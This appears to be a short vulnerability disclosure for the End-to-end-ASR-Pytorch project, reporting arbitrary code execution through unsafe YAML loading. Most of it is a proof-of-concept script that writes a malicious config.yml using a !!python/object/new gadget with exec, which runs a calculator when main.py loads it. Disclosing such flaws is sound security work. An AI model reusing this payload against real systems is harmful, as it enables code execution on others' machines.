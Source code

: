# Description

`End-to-end-ASR-Pytorch` is an open source project (formerly named Listen, Attend and Spell - PyTorch Implementation) for end-to-end ASR implemented with Pytorch, the well known deep learning toolkit, which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
git clone https://github.com/Alexander-H-Liu/End-to-end-ASR-Pytorch
```

### Run exploit.py
```
import os
#os.system('git clone https://github.com/Alexander-H-Liu/End-to-end-ASR-Pytorch')
os.chdir('End-to-end-ASR-Pytorch/')
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
os.system('python main.py --config config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
